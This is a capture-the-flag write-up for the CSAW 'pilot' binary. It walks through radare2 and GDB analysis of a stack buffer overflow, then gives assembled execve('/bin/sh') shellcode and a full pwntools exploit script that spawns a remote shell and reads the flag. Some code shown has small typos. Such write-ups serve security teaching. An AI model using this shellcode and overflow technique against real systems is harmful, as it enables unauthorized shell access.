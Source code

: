#Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:

Can I take your order?

nc pwn.chal.csaw.io 8464

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.
![radare2](imgs/r2-read-add.png)

# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.

![bp-0x400ae5](imgs/bp-0x400ae5.png)

Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

``asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
 nasm -fbin shellcode.nasm -o sc.bin

And generate a python friendly shellcode with hexdump:
 hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
 \x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
